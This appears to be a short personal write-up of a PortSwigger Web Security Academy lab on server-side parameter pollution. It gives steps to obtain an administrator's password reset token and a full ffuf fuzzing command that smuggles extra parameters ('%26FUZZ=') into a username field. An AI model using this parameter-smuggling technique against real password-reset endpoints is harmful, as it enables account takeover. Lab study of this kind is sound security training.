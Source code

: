 ## Exploiting server-side parameter pollution in a query string

>[!tip]
># URL encode exemple:
>`% => %26`
>`# => %23`
>`+ => %2B`
>`= => %3D`
>`$ => %24` 

### Steps
- review the `/static/js/forgotPassword.js` JavaScript file
- change the value of the ==`field`== parameter from `email` to `reset_token`
-  In Burp's browser, enter the password reset endpoint in the address bar. Add your password reset token as the value of the `reset_token` parameter . For example:
	`/forgot-password?reset_token=123456789`

### Fuzzing parmeter

`ffuf -w /usr/share/seclists/Discovery/Web-content/burp-parameter-name.txt -X POST -u https://0a4d00c604f23c0a83e6794a004900e2.web-security-academy.net/forgot-password -b 'session=iXZ2y2ve1agcLzxVdjA3PjvtGRnbLdo9' -d 'csrf=hcgQ87vYnERpZ50LQITtB92RQNP7U1SK&username=administrator%26FUZZ=test' -mc all -x http://127.0.0.1:8080 -fs 40 -t 100`




# create wordliste
	crunch 3 3 -o file.txt -t %%% -s 100 -e 200

